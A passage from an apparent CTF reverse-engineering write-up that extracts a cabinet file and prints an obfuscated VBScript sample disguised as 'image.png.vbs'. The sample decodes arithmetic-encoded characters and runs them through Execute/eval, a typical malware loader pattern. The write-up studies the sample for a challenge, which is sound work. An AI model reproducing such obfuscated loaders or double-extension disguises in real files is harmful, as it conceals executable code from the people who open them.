 **Microsoft Cabinet archive data?**

> A cabinet is a single file, usually with a `.cab` extension, that stores compressed files in a file library. The cabinet format is an efficient way to package multiple files because compression is performed across file boundaries, which significantly improves the compression ratio.

**Let's rename the extracted file:**
```shell
┌[siunam♥earth]-(~/ctf/HeroCTF-v5/Reverse/Give-My-Money-Back)-[2023.05.14|16:07:33(HKT)]
└> mv edf576f75abda49a095ab28d8a822360387446ff3254544ae19c991a33125feb stage1.cab
```

**To extract `.cab` file, we can use `cabextract`:**
```shell
┌[siunam♥earth]-(~/ctf/HeroCTF-v5/Reverse/Give-My-Money-Back)-[2023.05.14|16:09:26(HKT)]
└> cabextract stage1.cab
Extracting cabinet: stage1.cab
  extracting description.txt
  extracting image.png.vbs

All done, no errors.
```

**Nothing weird in `description.txt`:**
```shell
┌[siunam♥earth]-(~/ctf/HeroCTF-v5/Reverse/Give-My-Money-Back)-[2023.05.14|16:09:27(HKT)]
└> cat description.txt | uniq
sorry server is no longer available
sorry server is no longer available
```

## Deobfuscation

**However, in `image.png.vbs`, it's a VBS script:**
```vb
dIM jJkmPKZNvhSgPGmVLdvBVgOimreRTqiaEDiOcfNqy, AxEjAhgOVVhnXPrQQdPpAItXlqhuIRHOuDWWhvoyp, FwwcltIiESLKzggUCrjiaEUtjbmpvvGzwJNhoLFSp
Sub FncTqZirWltYCeayCzqdIRdKqrIzaKWRIZbSCprXS
JJKMpKZNvhsgPgMvldVBVGoiMRERTqiAEdIOcFNqY = "399711/3601*702350/6385*8573-8541*847693/8393*7119-7005*7714-7600*463-352*1137720/9980*214336/6698*-5139+5253*8037-7936*297045/2583*[...]*2065-2024"
axEjahGoVVhnxPRQQDPPaiTXLQhUIRhouDwwHvOyp = splIt(jjkMPKzNVhSgpGmvLdVBVGOimrerTQIaeDiocFNQY, chr(eVaL(75684/1802)))
for each MqNbrDAQjYRIwUnepBXnOsmlQlLuaaeTTwAchSFjz In AxEjahGovVHNxprqQdPPAITXLqhuiRHOuDwwhVOyP
FWwCltIiEsLkZgGUCRjiAEuTJbMpVVgZwJNhOLFSp = fwWCLtIieslKZgGUcrjIaEUTJBmPvvgZwjNHoLfSp & Chr(eVaL(MqnBrdaqjYRIwUnEPBxnoSMlqLluAaeTtwAchSFJz))
NEXT
lxtvaQuFKFKhmxjWgYFOSFuWJcYbTRdpUPuDAdnmD
end SUb
SUb LXTvAQufKFkHMxJwGYFOsFUwJcYBTRDPuPUdadnmD
eval(eXecUTe(fwwCltiieslkzggUCrJIaeUtjBmPvvGZwJNHoLFsp))
enD sUB
FnCtqZiRWLtyCeayCzQdIrDKqrIZAkwRIzBsCpRXs
```

Oh boi, it's obfuscated.
